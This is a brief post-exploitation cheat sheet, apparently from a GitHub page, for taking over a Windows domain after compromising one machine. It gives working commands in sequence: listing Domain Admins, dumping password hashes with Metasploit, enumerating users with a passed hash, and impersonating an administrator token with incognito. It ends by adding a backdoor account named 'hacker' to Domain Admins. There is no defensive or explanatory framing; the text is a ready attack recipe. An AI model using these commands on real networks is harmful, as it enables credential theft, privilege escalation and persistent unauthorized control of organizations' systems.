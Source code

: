 [+] After compromising a Windows machine:

[>] List the domain administrators:

`net group "Domain Admins" /domain`

[>] Dump the hashes (Metasploit):

`msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE`

[>] Find the admins (Metasploit):

    spool /tmp/enumdomainusers.txt
    msf > use auxiliary/scanner/smb/smb_enumusers_domain
    msf > set smbuser Administrator
    msf > set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    msf > set rhosts 10.10.10.0/24
    msf > set threads 8
    msf > run

    msf> spool off

[>] Compromise Admin's box:

    meterpreter > load incognito
    meterpreter > list_tokens -u
    meterpreter > impersonate_token MYDOM\\adaministrator
    meterpreter > getuid
    meterpreter > shell

    C:\> whoami
    mydom\adaministrator
    C:\> net user hacker /add /domain
    C:\> net group "Domain Admins" hacker /add /domain
